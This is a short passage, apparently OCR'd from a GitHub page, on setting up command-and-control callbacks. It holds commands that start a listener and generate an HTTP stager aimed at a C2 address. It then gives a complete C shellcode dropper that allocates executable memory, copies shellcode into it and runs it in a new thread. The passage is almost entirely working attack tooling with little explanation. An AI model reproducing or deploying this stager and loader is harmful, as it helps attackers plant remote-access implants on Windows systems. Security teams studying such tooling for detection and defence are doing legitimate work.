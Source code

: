 Start the second Listener to get the second callback:
```
mtls --lhost <C2 IP> --lport 443
```


Generate the Stager:
```
generate stager -r http --lhost <C2 IP> --lport 8080
```

Example of Dropper in C:

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Define your shellcode here
unsigned char shellcode[] = {
    // Your shellcode goes here
};

int main() {
    LPVOID lpAlloc;
    DWORD dwOldProtect;
    HANDLE hThread;

    // Allocate memory
    lpAlloc = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpAlloc == NULL) {
        printf("VirtualAlloc failed: %d\n", GetLastError());
        return 1;
    }

    // Copy shellcode to allocated memory
    memcpy(lpAlloc, shellcode, sizeof(shellcode));

    // Change memory protection
    if (!VirtualProtect(lpAlloc, sizeof(shellcode), PAGE_EXECUTE_READ, &dwOldProtect)) {
        printf("VirtualProtect failed: %d\n", GetLastError());
        return 1;
    }

    // Create a new thread to execute shellcode
    hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpAlloc, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("CreateThread failed: %d\n", GetLastError());
        return 1;
    }

    // Wait for the thread to finish
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFree(lpAlloc, 0, MEM_RELEASE);

    return 0;
}

```
